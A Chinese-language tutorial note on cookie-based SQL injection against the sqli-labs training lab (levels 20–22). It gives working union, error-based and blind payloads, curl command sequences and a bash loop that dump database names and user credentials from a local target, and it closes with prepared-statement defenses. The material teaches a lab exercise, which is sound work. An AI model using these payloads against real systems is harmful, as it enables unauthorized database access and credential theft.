


# 01-Cookie 注入

> 所属知识库：[[SQL总目录|SQL 总目录]] / mysql 结构系列
>
> 上级章节衔接：[[../01-整数型注入|整数型注入]] 讲的是 GET 参数位置的注入，本章把输入源搬到 **Cookie**；提数据骨架来自 [[../03-报错注入|报错注入]]
>
> sqli-labs 对照：less-20（明文 Cookie 回显）、less-21（Cookie base64 + 单引号闭合）、less-22（Cookie base64 + 双引号闭合）
>
> 配套工具：[[../../../../../hackingtools/web/README|hackingtools/web 工具箱]]

## 一、原理：Cookie 也是输入源

很多教程只强调过滤 GET/POST 参数，却忽略了 PHP 中 `$_COOKIE` 与 `$_GET`、`$_POST` 同为用户可控超全局数组——**浏览器里的 Cookie 完全由客户端决定**，用 Burp、浏览器插件甚至一行 curl 都能任意改写。服务端把它直接拼接进 SQL，就是一个标准注入点。

漏洞代码形态（less-20 原型）：

```php
// 登录成功后从 Cookie 取用户名直接查库
$uname = $_COOKIE['uname'];
$sql = "SELECT username, password FROM users WHERE username='$uname' LIMIT 0,1";
$result = mysql_query($sql);
```

正常请求 `Cookie: uname=admin` 执行：

```sql
SELECT username, password FROM users WHERE username='admin' LIMIT 0,1
```

攻击者把 Cookie 改成 `admin' and '1'='1`，SQL 即被改写。**Cookie 注入与 GET 注入的 payload 完全通用，区别只在数据到达的位置**——这正是"统一五步方法论"能跨注入点复用的原因。

### 输入源全景



GET 注入见 [[../01-整数型注入|整数型注入]]，POST 注入在 less-11 系列，本章聚焦 Cookie，header 类（UA/Referer）见后两章。

## 二、触发条件与闭合判断

### 触发条件

1. 服务端从 `$_COOKIE` 取值且未参数化
2. 取值代码在**当前请求路径上直接执行**（less-20 打开页面即查询）
3. 查询结果或 MySQL 错误有回显（union 回显位或报错输出）

注意 less-21/22 多了一步：服务端先 `base64_decode($_COOKIE['uname'])` 再拼接，payload 必须整体编码后发送。

### 闭合探测

| 测试值（放入 uname） | 现象 | 结论 |
|--------|------|------|
| `admin'` | MySQL 报错信息可见 | 单引号闭合，有报错回显 |
| `admin' and '1'='1` | 页面正常 | 单引号闭合确认 |
| `admin' and '1'='2` | 页面异常/空 | 真假对比成立，注入有效 |
| `admin"` | 报错 | 双引号闭合（less-22 场景） |
| `admin') ` | 报错含括号提示 | 单引号+括号闭合（less-21 场景） |

### 三关对照

| 关卡 | 编码 | 闭合 | 推荐通道 |
|------|------|------|---------|
| less-20 | 明文 | 单引号 `'` | union 五步 + 报错备用 |
| less-21 | base64 | 单引号+括号 `')` | union / 报错 |
| less-22 | base64 | 双引号 `"` | union / 报错 |

三关共用同一套方法论，差异只有"编码层"和"闭合字符"两个变量。

## 三、curl 五步实操（less-20 明文 Cookie）

不用 Burp，一条命令一个步骤完整走通。约定靶场地址 `http://127.0.0.1/sqli-labs/Less-20/`。Cookie 里可以直接用 `#` 作注释符（不需要像 GET 那样写成 `%23`）。

### 第一步：确认注入点存在（真假对比）

```bash
# 真条件 —— 页面正常回显用户信息
curl -s "http://127.0.0.1/sqli-labs/Less-20/" \
     -b "uname=admin' and '1'='1"

# 假条件 —— 页面无用户信息/异常，两者有差异即注入成立
curl -s "http://127.0.0.1/sqli-labs/Less-20/" \
     -b "uname=admin' and '1'='2"
```

也可以用单引号试探直接看报错：

```bash
curl -s "http://127.0.0.1/sqli-labs/Less-20/" -b "uname=admin'"
# 输出含 MySQL 报错 → 单引号闭合 + 报错回显双通道可用
```

### 第二步：探测列数

```bash
curl -s "http://127.0.0.1/sqli-labs/Less-20/" -b "uname=admin' order by 3#"
# 正常

curl -s "http://127.0.0.1/sqli-labs/Less-20/" -b "uname=admin' order by 4#"
# Unknown column '4' in 'order clause' → 3 列
```

### 第三步：爆当前数据库

union 路线（负值让原查询落空，腾出回显位）：

```bash
curl -s "http://127.0.0.1/sqli-labs/Less-20/" \
     -b "uname=-admin' union select 1,database(),3#"
# 页面显示: security
```

报错路线（页面没有回显位时的替代）：

```bash
curl -s "http://127.0.0.1/sqli-labs/Less-20/" \
     -b "uname=admin' and updatexml(1,concat(0x7e,database()),1)#"
# XPATH syntax error: '~security'
```

### 第四步：information_schema 爆表

```bash
curl -s "http://127.0.0.1/sqli-labs/Less-20/" \
     -b "uname=-admin' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()#"
# emails,referers,uagents,users
```

报错版：

```bash
curl -s "http://127.0.0.1/sqli-labs/Less-20/" \
     -b "uname=admin' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database())),1)#"
```

### 第五步：爆列并提取数据

```bash
# 爆列
curl -s "http://127.0.0.1/sqli-labs/Less-20/" \
     -b "uname=-admin' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users'#"
# id,username,password,...

# 提取账号密码
curl -s "http://127.0.0.1/sqli-labs/Less-20/" \
     -b "uname=-admin' union select 1,group_concat(username,0x3a,password),3 from users#"
# Dumb:Dumb, Angelina:I-kill-you, ...
```

### 五步链总结



每一步只是换 `-b` 后面的 payload，命令骨架完全不变——这就是五步方法论的价值：**换注入点只换参数，不换思路**。

### 会话与触发路径说明

部分 Cookie 注入变体要求先登录拿到会话，再由后续页面读取 Cookie 查询。curl 用 `-c` 存会话、`-b` 同时带会话与自定义值：

```bash
# 登录保存会话
curl -s -c jar.txt "http://127.0.0.1/sqli-labs/Less-20/" \
     -d "uname=admin&passwd=dumb&submit=Submit"

# 带着会话 + 注入 Cookie 访问
curl -s -b jar.txt -b "uname=admin' order by 3#" \
     "http://127.0.0.1/sqli-labs/Less-20/"
```

less-20 原版打开首页即读 `$_COOKIE['uname']` 查询，可省略登录步骤直接 `-b`；遇到"必须登录才读 Cookie"的站点按上面两段式操作即可。

## 四、base64 编码 Cookie 注入（less-21 / less-22）

### 代码差异

```php
$cookee = base64_decode($_COOKIE['uname']);
$sql = "SELECT username, password FROM users WHERE username='$cookee' LIMIT 0,1";
```

注入 payload 必须先写好明文，再整体 base64 编码放进 Cookie。

### 先解码现有值判断编码型注入点

```bash
echo "YWRtaW4=" | base64 -d
# admin ← 服务端按 base64 解码后再处理，注入也要编码后发送
```

若不解码直接发明文 payload，服务端 decode 后得到乱码，SQL 里只是普通字符串，注入无效。

### 编码操作流

关键细节：`base64` 默认每 76 字符换行，长 payload 必须 `-w 0`；`echo` 必须加 `-n` 去掉尾部换行符，否则解码端多出一个不可见的 `\n` 可能破坏闭合。

```bash
# 单条编码
PAYLOAD=$(echo -n "admin') and extractvalue(1,concat(0x7e,database()))#" | base64 -w 0)
echo "$PAYLOAD"

# 发送
curl -s "http://127.0.0.1/sqli-labs/Less-21/" -b "uname=${PAYLOAD}"
```

### less-21 五步全流程（编码版）

```bash
URL="http://127.0.0.1/sqli-labs/Less-21/"

enc() { echo -n "$1" | base64 -w 0; }

# ① 确认注入：真假对比
curl -s "$URL" -b "uname=$(enc "admin') and ('1')=('1")"
curl -s "$URL" -b "uname=$(enc "admin') and ('1')=('2")"

# ② 探列数
curl -s "$URL" -b "uname=$(enc "admin') order by 3#")"
curl -s "$URL" -b "uname=$(enc "admin') order by 4#")"   # 报错 → 3 列

# ③ 爆库
curl -s "$URL" -b "uname=$(enc "-admin') union select 1,database(),3#")"

# ④ 爆表
curl -s "$URL" -b "uname=$(enc "-admin') union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()#")"

# ⑤ 爆列提数据
curl -s "$URL" -b "uname=$(enc "-admin') union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users'#")"
curl -s "$URL" -b "uname=$(enc "-admin') union select 1,group_concat(username,0x3a,password),3 from users#")"
```

把五步封装成循环更省事：

```bash
#!/bin/bash
URL="http://127.0.0.1/sqli-labs/Less-21/"
PAYLOADS=(
  "admin') and ('1')=('1"
  "admin') order by 3#"
  "-admin') union select 1,database(),3#"
  "-admin') union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()#"
  "-admin') union select 1,group_concat(username,0x3a,password),3 from users#"
)
for p in "${PAYLOADS[@]}"; do
  echo "== $p"
  curl -s "$URL" -b "uname=$(echo -n "$p" | base64 -w 0)" | grep -Ei "Your|error|~" | head -5
done
```

### less-22 差异

双引号闭合，payload 换引号即可，其余流程相同：

```bash
curl -s "http://127.0.0.1/sqli-labs/Less-22/" \
     -b "uname=$(echo -n '-admin" union select 1,database(),3#' | base64 -w 0)"
```

### base64 场景易错点

| 易错点 | 说明 |
|-------|------|
| 忘记 `-w 0` | 输出带换行，放进 Cookie 头直接截断请求 |
| 忘记 `echo -n` | 尾部 `\n` 一起被编码，服务端解码后多出空白字符 |
| 直接改 Burp 里的明文 | less-21/22 不接受明文，必须整串编码 |
| `+/=` 被 URL 层转义 | 个别框架对 Cookie 再做一次 URL 解码，必要时补一层 URL 编码测试 |

## 五、Burp 流程（压缩版）

手工理解用 curl，团队协作与留痕用 Burp：

1. 登录后刷新页面，拦截带 `Cookie: uname=...` 的请求，Send to Repeater
2. Repeater 中按第三节同样顺序替换 uname 值（真/假/order by/union）
3. base64 关卡在 Repeater 里改完明文后需自行编码粘贴
4. 响应区观察回显位内容或 XPATH 报错

curl 与 Burp 的分工：**探测阶段 curl 快，展示与报告阶段 Repeater 截图清晰**。

## 六、报错与盲注变体

Cookie 场景有时只有登录状态文案、没有字段级回显位，此时报错注入是最稳出口（技术细节见 [[../03-报错注入|报错注入]]）：

```sql
admin' and updatexml(1,concat(0x7e,database()),1)#
admin' and extractvalue(1,concat(0x7e,(select group_concat(username,0x3a,password) from users),0x7e))#
```

extractvalue/updatexml 只回显约 32 字符，超长用 substr 分段：

```sql
admin' and extractvalue(1,concat(0x7e,substr((select group_concat(username,0x3a,password) from users),1,30)))#
admin' and extractvalue(1,concat(0x7e,substr((select group_concat(username,0x3a,password) from users),31,30)))#
```

无报错回显时退化为盲注：

```sql
-- 布尔盲注: 页面是否正常区分真假
admin' and ascii(substr(database(),1,1))=115 and '1'='1
-- 时间盲注: 响应延迟约 5 秒即条件为真
admin' and if(ascii(substr(database(),1,1))=115,sleep(5),0)#
```

时间盲注的 curl 验证：

```bash
curl -s -o /dev/null -w "%{time_total}\n" "http://127.0.0.1/sqli-labs/Less-20/" \
     -b "uname=admin' and if(substr(database(),1,1)='s',sleep(5),0)#"
```

## 七、例题思路表

| 题目特征 | 判断 | 主打打法 |
|---------|------|---------|
| 页面显示 Your ID/Username 且来自 Cookie | 明文 Cookie 回显 | union 五步（less-20） |
| Cookie 值长得像 `YWRtaW4=` | base64 编码型 | 解码看逻辑，编码后走五步（less-21/22） |
| Cookie 注入但页面无数据回显 | 只有报错通道 | updatexml/extractvalue 报错链 |
| 报错也被关 | 盲注 | 布尔/时间逐位提取 |
| 改 Cookie 无任何反应 | 未走查询或参数化 | 换头（UA/Referer）或检查触发路径 |

通用心法：无论哪个关卡，都按"真假对比 → order by → database() → 爆表 → 爆列提数"推进，遇到编码就多一层编解码包装。

## 八、坑位速查

| 坑 | 说明 |
|----|------|
| Cookie 里用 `--+` | GET 的注释习惯；Cookie 中直接 `#` 即可，`--+` 反而可能因空格问题失效 |
| 未登录直接打 less-20 | 该关打开首页即读 Cookie 查询，可不登录；但部分变体需先建立会话 |
| base64 编码了半截 payload | 必须整串编码，包括引号和注释符 |
| `-b` 与 `-c` 混淆 | `-b` 发送 Cookie，`-c` 保存响应 Set-Cookie 到文件，别写反 |
| shell 引号嵌套 | payload 含单引号时外层用双引号包裹，反之亦然；复杂时存变量 |
| URL 特殊字符 | curl 的 `-b` 不做 URL 编码，payload 含 `&` 时注意会被 shell 当后台符，必须引号包住 |

## 九、自动化：sqlinject.py 工具

五步链已内置到自制工具，Cookie 注入一键化：

```bash
cd ~/hackingtools/web/injection

# less-20 明文 Cookie 全流程（自动闭合识别 → 列数 → 库 → 表列 → 数据）
./sqlinject.py -u "http://127.0.0.1/sqli-labs/Less-20/" --cookie "uname=1" --cookie-point

# less-21/22 编码场景：先用系统命令拿到编码值再交给工具
B64=$(echo -n "1')" | base64 -w 0)
./sqlinject.py -u "http://127.0.0.1/sqli-labs/Less-21/" --cookie "uname=${B64}" --cookie-point

# 自定义单发 payload 快速验证
./sqlinject.py -u "http://127.0.0.1/sqli-labs/Less-20/" --cookie "uname=1" \
               --custom "' and updatexml(1,concat(0x7e,database()),1)#"
```

参数细节与更多示例见 [[../../../../../hackingtools/web/README|hackingtools/web 工具箱]]。

## 十、防御

| 措施 | 说明 |
|------|------|
| 参数化查询 | Cookie 值同样走 prepared statement，与 GET/POST 同等待遇 |
| 不要信任任何输入 | `$_COOKIE` 与 `$_GET` 在白名单校验上不应有差别 |
| 最小化 Cookie 用途 | 身份标识尽量只存 session id，业务数据留在服务端 session |
| HttpOnly 不是解药 | HttpOnly 只防 JS 读 Cookie，不防抓包改包注入 |
| 关闭详细报错 | `display_errors=Off`，报错注入失去出口 |
| Cookie 值签名 | 服务端校验 HMAC，篡改即拒绝，从源头消灭可控性 |

```php
// 防御正例: Cookie 值参数化
$stmt = $pdo->prepare("SELECT username, password FROM users WHERE username=? LIMIT 0,1");
$stmt->execute([$_COOKIE['uname']]);
```

---

**返回** [[SQL总目录|SQL 总目录]] · [[mysql结构总目录|mysql结构 总目录]] · 工具 [[../../../../../hackingtools/web/README|hackingtools/web 工具箱]] · 相关 [[../01-整数型注入|整数型注入]] [[../03-报错注入|报错注入]]
